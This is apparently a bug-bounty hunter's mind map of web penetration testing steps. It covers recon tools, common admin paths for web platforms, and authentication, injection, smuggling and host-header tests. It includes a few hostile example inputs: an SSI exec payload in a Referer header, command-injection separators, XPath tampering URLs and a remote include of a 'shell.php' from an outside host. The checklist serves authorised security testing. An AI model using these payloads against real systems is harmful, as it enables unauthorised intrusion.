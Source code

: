# Bug_Hunt_MAP
My Bug bounty mind map


Penetration Testing Techniques
    |
    +-- Identify Application Entry Points --> Zap, BURP
    |
    +-- Fingerprint Web Server --> Netcraft, Nmap, Nikto
    |
    +-- Review Webserver Metafiles for Information Leakage
    |       |
    |       +-- robots.txt
    |       +-- sitemap.xml
    |       +-- security.txt
    |       +-- humans.txt
    |       +-- .well-knowns
    |
    +-- Fingerprint Web Application Framework --> whatweb, wappalyzer
    |
    +-- Review Old Backup and Unreferenced Files for Sensitive Information --> nessus, wordlists
    |
    +-- Enumerate Infrastructure and Application Admin Interfaces
    |       |
    |       +-- PHP
    |       |       |
    |       |       +-- /phpinfo
    |       |       +-- /phpmyadmin/
    |       |       +-- /phpMyAdmin/
    |       |       +-- /mysqladmin/
    |       |       +-- /MySQLadmin
    |       |       +-- /MySQLAdmin
    |       |       +-- /login.php
    |       |       +-- /logon.php
    |       |       +-- /xmlrpc.php
    |       |       +-- /dbadmin
    |       |
    |       +-- WordPress
    |       |       |
    |       |       +-- wp-admin/
    |       |       +-- wp-admin/about.php
    |       |       +-- wp-admin/admin-ajax.php
    |       |       +-- wp-admin/admin-db.php
    |       |       +-- wp-admin/admin-footer.php
    |       |       +-- wp-admin/admin-functions.php
    |       |       +-- wp-admin/admin-header.php
    |       |
    |       +-- Joomla
    |       |       |
    |       |       +-- /administrator/index.php
    |       |       +-- /administrator/index.php?option=com_login
    |       |       +-- /administrator/index.php?option=com_content
    |       |       +-- /administrator/index.php?option=com_users
    |       |       +-- /administrator/index.php?option=com_menus
    |       |       +-- /administrator/index.php?option=com_installer
    |       |       +-- /administrator/index.php?option=com_config
    |       |
    |       +-- Tomcat
    |       |       |
    |       |       +-- /manager/html
    |       |       +-- /host-manager/html
    |       |       +-- /manager/text
    |       |       +-- /tomcat-users.xml
    |       |
    |       +-- Apache
    |       |       |
    |       |       +-- /index.html
    |       |       +-- /httpd.conf
    |       |       +-- /apache2.conf
    |       |       +-- /server-status
    |       |
    |       +-- Nginx
    |               |
    |               +-- /index.html
    |               +-- /index.htm
    |               +-- /index.php
    |               +-- /nginx_status
    |               +-- /index.php
    |               +-- /nginx.conf
    |               +-- /html/error
    |
    +-- Tools --> Netsparker, Zap
    |
    +-- HTTP Methods
    |       |
    |       +-- Nmap http-methods NSE script, curl
    |       +-- GET, HEAD, POST, DELETE, CONNECT, OPTIONS, TRACE, PATCH
    |
    +-- Test for Subdomain Takeover --> recon-ng, dig, dnsrecon
    |
    +-- Testing for Content Security Policy --> CSP Auditor - Burp Suite Extension
    |
    +-- Authentication Testing
    |       |
    |       +-- Testing for Default Credentials --> hydra, burp intruder
    |       +-- Testing for Bypassing Authentication Schema --> injections
    |       +-- Testing for Vulnerable Remember Password --> MFA --> clickjacking, CSRF
    |       +-- Testing for Weak Password Policy --> check for weak passwords
    |
    +-- Testing for Session Hijacking --> JHijack tool (https://sourceforge.net/projects/jhijack/)
    |
    +-- Injections
    |       |
    |       +-- XML, SQL, SSI, XPath Injection, Server-Side Includes(SSI)
    |               |
    |               +-- GET / HTTP/1.1, Host: www.example.com, Referer: <!--#exec cmd="/bin/ps ax"-->
    |               +-- XPath Injection
    |                       |
    |                       +-- http://<webmail>/src/read_body.php?mailbox=INBOX&passed_id=46106&startMessage=1
    |                               |
    |                               +-- Assign a null value to the parameter:
    |                               |       |
    |                               |       +-- http://<webmail>/src/read_body.php?mailbox=&passed_id=46106&startMessage=1
    |                               |
    |                               +-- Substitute the value with a random value:
    |                               |       |
    |                               |       +-- http://<webmail>/src/read_body.php?mailbox=NOTEXIST&passed_id=46106&startMessage=1
    |                               |
    |                               +-- Add other values to the parameter:
    |                               |       |
    |                               |       +-- http://<webmail>/src/read_body.php?mailbox=INBOX PARAMETER2&passed_id=46106&startMessage=1
    |                               |
    |                               +-- Add non-standard special characters:
    |                               |       |
    |                               |       +-- http://<webmail>/src/read_body.php?mailbox=INBOX"&passed_id=46106&startMessage=1
    |                               |
    |                               +-- Eliminate the parameter:
    |                                       |
    |                                       +-- http://<webmail>/src/read_body.php?passed_id=46106&startMessage=1
    |
    +-- Command Injection
    |       |
    |       +-- The following special characters can be used for command injection:
    |               |
    |               +-- cmd1|cmd2
    |               +-- cmd1;cmd2
    |               +-- cmd1||cmd2
    |               +-- cmd1&&cmd2
    |               +-- $(cmd)
    |               +-- cmd
    |               +-- >(cmd)
    |               +-- <(cmd)
    |
    +-- Java
    |       |
    |       +-- Runtime.exec()
    |
    +-- C/C++
    |       |
    |       +-- system
    |       +-- exec
    |       +-- ShellExecute
    |
    +-- Python
    |       |
    |       +-- exec
    |       +-- eval
    |       +-- os.system
    |       +-- os.popen
    |       +-- subprocess.popen
    |       +-- subprocess.call
    |
    +-- PHP
    |       |
    |       +-- system
    |       +-- shell_exec
    |       +-- exec
    |       +-- proc_open
    |       +-- eval
    |
    +-- Testing for HTTP Splitting Smuggling
    |       |
    |       +-- The headers that are the most likely candidates for this attack are:
    |               |
    |               +-- Location
    |               +-- Set-Cookie
    |
    +-- Testing for Host Header Injection
            |
            +-- X-Forwarded Host Header Bypass
            +-- SSRF
                    |
                    +-- GET https://example.com/page?page=about.php
                    +-- GET https://example.com/page?page=https://xxx.com/shell.php
